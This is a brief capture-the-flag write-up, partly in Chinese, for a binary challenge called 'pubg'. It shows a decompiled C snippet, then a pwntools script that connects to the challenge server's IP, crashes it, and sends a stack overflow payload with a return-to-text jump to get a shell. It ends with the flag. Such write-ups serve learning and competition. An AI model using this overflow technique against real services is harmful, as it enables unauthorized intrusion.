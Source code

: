 ```c

  puts("Please input your name:");
  read(0, &buf, 0x60uLL);
  return puts("Lisence created.");
}
```
exp如下，需要注意的是由于只有5秒时间- -,getshell后需要立即`cat flag`(懒得再写脚本了)
```py
from pwn import *
import time
import hashlib
context.log_level='debug'
#p=process('./pubg')
p=remote('159.65.68.241',9001)
p.recvuntil('code')
p.sendline('2')
p.recvuntil(':')
p.sendline('-2') #crash
time.sleep(5)
p.close()

#p=process('./pubg')
p=remote('159.65.68.241',9001)
p.recvuntil('code')
p.sendline('2')
p.recvuntil(':')
p.sendline('-1')
p.recvuntil(':')
p.send('\x00'*16)
p.recvuntil(':')
p.send('A'*0x28+p64(0x401BED)) #ret2text
p.interactive()
```
flag{L3H_h3r3_1s_y0ur_ch1cken_dinner}